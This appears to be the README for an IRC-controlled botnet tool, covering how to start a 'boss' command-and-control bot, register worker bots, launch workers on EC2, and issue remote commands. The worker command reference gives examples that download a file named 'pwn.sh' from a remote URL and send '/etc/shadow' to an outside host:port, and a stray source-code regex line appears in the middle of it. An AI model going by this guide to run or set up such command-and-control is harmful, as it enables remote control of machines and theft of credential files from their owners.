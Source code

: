 .. _botnet:

BotNet Help
===========

Quick overview
--------------

The botnet is composed of two components, the boss and any number of workers.
The first step when using the botnet is to start up the boss.

Here is an example::

    python boss.py -c secretbotz -n daboss1 -x qwerty

This will start the boss using "#secretbotz" as the command channel.
The boss will be identified by the nickname "daboss1".  To auth with the boss
you will send it the message ``!auth qwerty``.  The default host is
irc.freenode.net and the default port is 6667, so it will use thoes values.  You
should be able to join #secretbotz using your IRC client and see "daboss1" just
chilling out::

    <cleifer> !auth qwerty
    <daboss1> Success

Next, start up any number of workers.  The workers will need to know the nick
of the command bot so they can register themselves and start accepting tasks::

    python worker.py -b daboss1

Now you should be able to ask daboss1 for some status and see that your worker
has been registered::

    <cleifer> !status
    <daboss1> 1 workers available
    <daboss1> 0 tasks have been scheduled

Let's execute a program on the worker machine::

    <cleifer> !execute run vmstat
    <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
    <daboss1> Task 1 completed by 1 workers

What was the output of the command?

::

    cleifer> !print
    <daboss1> [w0rk3r:{alpha}] - run vmstat
    <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
    <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
    <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


The Boss
--------

The Boss is responsible for coordinating a given number of
worker bots.  The Boss is given a channel and a secret password,
when you join that channel and authenticate with the boss, you will
be able to issue commands to the workers::

    <you>  /join #secret-channel
    <you>  !auth my-password
    <boss> Success


Starting the Boss
^^^^^^^^^^^^^^^^^

``python boss.py [options]``

switch  meaning                      example
======  =======                      =======
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      nickname to use for boss     -n boss1337
-x      secret used to auth          -x sshhh!
-c      c&c channel                  -c #secret-channel
-f      logfile                      -f /var/log/boss.log
-v      verbosity of logging (0 - 2) -v 1


The Worker
----------

The Worker is responsible for executing tasks you send to the boss.  The worker
communicates solely with the boss, executing tasks on the local machine and reporting
its results back when finished.  Behind-the-scenes the worker initialization looks
like this:

1. message the boss and ask to register (tries every 30s)
2. upon receiving confirmation, join the C&C channel with the other workers
3. work on tasks issued by the boss via the C&C channel, and report back results


Starting the worker
^^^^^^^^^^^^^^^^^^^

``python worker.py [options]``

switch  meaning                         example
======  =======                         =======
-s      server to connect to            -s irc.freenode.net
-p      port to connect on              -p 6667
-n      base nickname for worker        -n worker
-b      nickname of boss *important*    -b daboss1
-f      logfile for output              -f /var/log/worker.log
-v      verbosity of output 0 -2        -v 1


Launching a number of workers using EC2
---------------------------------------

The BotNet comes with a launcher to make it easy to spin up an arbitrary number
of workers using amazon's EC2.  This launcher requires [boto](https://github.com/boto/boto),
the python/aws library.

Example usage::

    # launch 10 workers pointing them at "daboss1"
    python launcher.py --workers=10 --boss=daboss1
    
    # show me the status of my workers
    python launcher.py show
    
    # terminate my workers, I'm done
    python launcher.py terminate


Running the launcher
^^^^^^^^^^^^^^^^^^^^

The launcher takes a number of options, which instruct it which AMI to use, what
size instances to create, number of workers to spawn, etc.  It also takes all the
same parameters the worker takes, and passes those along to the workers it spawns.

switch           meaning                      example
===========      =======                      =======

--workers        number of workers to spawn   --workers=5
--quiet          no output                    --quiet
--script         custom bootstrap script      --script=my-custom-script.sh
--ami            AMI id to use                --ami=ami-ab36fbc2
--key            AWS access key               --key=foo
--secret         AWS secret access key        --secret=bar
--type           Instance size                --type=t1.micro
--key-name       Security pair key name       --key-name=master-key
--group          Security group for instances --group=default


The following switches will be passed on to the workers launched by the launcher:

switch  meaning                         example
======  =======                         =======
-s      server to connect to            -s irc.freenode.net
-p      port to connect on              -p 6667
-n      base nickname for worker        -n worker
-b      nickname of boss *important*    -b daboss1
-f      logfile for output              -f /var/log/worker.log
-v      verbosity of output 0 -2        -v 1


Issuing commands to the BotNet
------------------------------

The BotNet comes with a number of commands pre-programmed.  Here are the steps for
running commands on your botnet, assuming you started our boss and worker in the following
manner::

    python boss.py -c secretbotz -n daboss1 -x qwerty
    python worker.py -b daboss1

1. Join the channel that you started the boss in and authenticate::

       <you>     /join #secretbotz
       <you>     !auth qwerty
       <daboss1> Success

2. Ask for status

       <you>     !status
       <daboss1> 1 workers available
       <daboss1> 0 tasks have been scheduled

3. Run a command

       <you>     !execute run vmstat
       <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
       <daboss1> Task 1 completed by 1 workers

4. View result returned by worker:

       <you>     !print
       <daboss1> [w0rk3r:{alpha}] - run vmstat
       <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
       <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
       <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


Command reference
-----------------

Command                                   Meaning
=======                                   =======

!auth <password>                          authenticate with the boss
!execute (num workers) <command>          execute the given command (optional, number of workers)
!print (task id)                          print output of tasks or task with id
!stop                                     tell workers to stop their current task
!status                                   get status on workers and tasks
!uptime                                   boss uptime
!help                                     display list of commands

Commands you can execute on workers
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The following commands are available to workers using ``!execute``:

            ('send_file (?P<filename>[^\s]+) (?P<destination>[^\s]+)', self.send_file),

            
``run <program>``
    Run the given program on the worker's host.
    
    Example: ``!execute run vmstat``

``info``
    Get info about the host the worker is running on
    
    Example: ``!execute info``

``download <url>``
    Retrieve a remote file and store it in the working directory
    
    Example: ``!execute download http://my-awesome-script.com/pwn.sh``

``send_file <filename> <destination>``
    Send file at <filename> to given destination (host:port) -- this transers
    the raw data.
    
    Example: ``!execute send_file /etc/shadow some.fileserver.com:9001``

``ports``
    View what ports are open on the workers host
    
    Example: ``!execute ports``

``status``
    Return the workers queue size
    
    Example: ``!execute status``

``get_time <format>``
    Return the localtime from the workers host
    
    Example: ``!execute get_time``
